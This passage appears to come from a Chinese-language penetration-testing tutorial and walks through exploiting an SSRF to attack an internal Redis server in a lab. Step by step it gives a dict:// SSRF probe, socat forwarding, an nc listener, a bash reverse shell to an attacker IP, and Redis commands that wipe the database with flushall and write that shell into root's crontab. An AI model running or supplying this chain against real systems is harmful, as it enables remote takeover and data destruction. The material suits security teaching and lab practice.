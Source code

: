 #### 7.4.2 ssrf探测redis服务

通过探测发现，内网192.168.11.203开放6379端口，6379为redis默认端口

```
http://192.168.11.135/ssrf.php?url=dict://192.168.11.203:6379
```

![image-20220407213829030](../../../images/image-20220407213829030.png)

#### 7.4.3 kali攻击机安装redis连接工具

```
apt-get install redis-tools
```

#### 7.4.4 开启流量转发

kali启动流量转发工具socat，目的是抓取到相关的流量内容

`192.168.11.192`为测试主机

```
socat -v tcp-listen:6379,fork tcp-connect:192.168.11.192:6379
```

![image-20220408104029258](../../../images/image-20220408104029258.png)

#### 7.4.5 kali开启nc监听

攻击redis会写入计划任务，计划任务内容如下，因为是反弹且时间为每分钟故须提前开启监听

```
bash -i >&/dev/tcp/192.168.10.96/3333 0>&1
```

另开一终端，启动监听：

```
nc -lvp 3333
```

![image-20220408103944960](../../../images/image-20220408103944960.png)

#### 7.4.6 模拟攻击redis

另开一终端，依次敲入以下命令

```
redis-cli -h 127.0.0.1 flushall					#删除Redis中的所有存在的key，不仅仅是当前的数据库。也就是清空数据库。
echo -e "\n\n*/1 * * * * bash -i >&/dev/tcp/192.168.10.96/3333 0>&1\n\n"|redis-cli -h 127.0.0.1 -x set farmsec														 								 #将echo的内容通过客户端写入到缓冲区中赋值给farmsec
redis-cli -h 127.0.0.1 config set dir /var/spool/cron/	#设置工作目录
redis-cli -h 127.0.0.1 config set dbfilename root				#设置保存文件名字
redis-cli -h 127.0.0.1 save															#将缓存区内容写入到root文件内
```
